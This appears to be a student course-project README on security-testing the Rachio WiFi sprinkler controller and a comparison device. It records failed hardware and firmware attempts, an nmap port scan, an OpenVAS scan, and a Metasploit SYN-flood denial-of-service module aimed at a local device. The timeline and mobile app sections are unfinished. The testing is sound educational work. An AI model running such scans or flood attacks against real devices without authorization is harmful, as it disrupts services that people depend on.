 # UCLA ECE 209AS: Special Topics in Circuits and Embedded Systems
Hacking Rachio, the Smart WiFi Sprinkler Controller

## What is Rachio?
Rachio is the Smart Sprinkler Controller that gives you control of your sprinklers and watering bill, right from your smart phone.
![Rachio](https://github.com/ffrqw/ECE209AS/blob/master/images/rachio.jpg?raw=true)
## Security Attack Model Navigation
We navigated security attack models of Rachio following the guidance of 
### Hardware  
- Serial ports exposed  
- Insecure authentication mechanism used in the serial ports  
- Ability to dump the firmware over JTAG or via Flash chips  

**Attempt**: Access to the circuit board.  
**Result**: Failed. The device is well packaged with no screws. The only way to open it is smashing the shell. But we don’t have proper tools to do so.  
![Rachio well encasulated]()

### Firmware
- Ability to modify firmware  
- Hardcoded sensitive values in the  firmware—API keys,
passwords, staging URLs, etc.  
- Ability to understand the entire functionality of the device
through the firmware  
- File system extraction from the firmware  

**Attempt**: Download from official website.  
**Result**: Failed. Refuse to provide.  

**Attempt**: Draw from hardware.  
**Result**: Failed. Due to the same reason in hardware part.  


### Penetration Testing 

In our Penetration testing, we compared Rachio with NxEco, another popular smart sprinkle device. We conducted our test under the same WIFI. Based on this condition, we did reconnaissance on the devices and tried to find infomation about OS of the devices. Then we did vulunrability analysis with OpenVAS and found a potential vulunrability that the devices are using tcp connection that may be attacked by DoS(Denial of Service). Finally we executed a DoS attack to see if the vulunrability exists.
Here are the implementations.

**Port Scanning**
- Metasploit Nmap  


```
root@kali:~# nmap -v -sV -oA port_scanning 192.168.1.0/29
```

- Results  

NxEco  

![nxeco_scan](https://github.com/ffrqw/ECE209AS/blob/master/images/nxeco_scan.png?raw=true)

Rachio  

![rachio_scan](https://github.com/ffrqw/ECE209AS/blob/master/images/rachio_scan.png?raw=true)

**Vulunrablity Analysis**
- OpenVAS

*Results*  

NxEco  

![nxeco_edit](https://github.com/ffrqw/ECE209AS/blob/master/images/nxeco_edit.png?raw=true)

![nxeco_results](https://github.com/ffrqw/ECE209AS/blob/master/images/nxeco.png?raw=true)

Rachio  

![rachio_edit](https://github.com/ffrqw/ECE209AS/blob/master/images/rachio_edit.png?raw=true)

![rachio_results](https://github.com/ffrqw/ECE209AS/blob/master/images/rachio.png?raw=true)


**DoS Attack**
- Metasploit auxiliary module attack

```
msf > use auxiliary/dos/tcp/synflood 
msf auxiliary(dos/tcp/synflood) > set RHOST 192.168.1.9
RHOST => 192.168.1.9
msf auxiliary(dos/tcp/synflood) > run
```
*Results*  

NxEco  

![nxeco_flood](https://github.com/ffrqw/ECE209AS/blob/master/images/nxeco_flood.png?raw=true)

Rachio  

![rachio_flood](https://github.com/ffrqw/ECE209AS/blob/master/images/rachio_flood.png?raw=true)


### Mobile application
- Reverse engineering the mobile app  
- Dumping source code of the mobile application  
- Side channel data leakage  
- Runtime manipulation attacks  
- Insecure network communication  
- Outdated 3rd party libraries and SDKs  
**Attempt**:
Analyze the Android app.

## Timeline
XXX
  
## Reference
【1】IoT Hackers Handbook: An ultimate guide to hacking the Internet of Things
【2】https://www.kali.org/

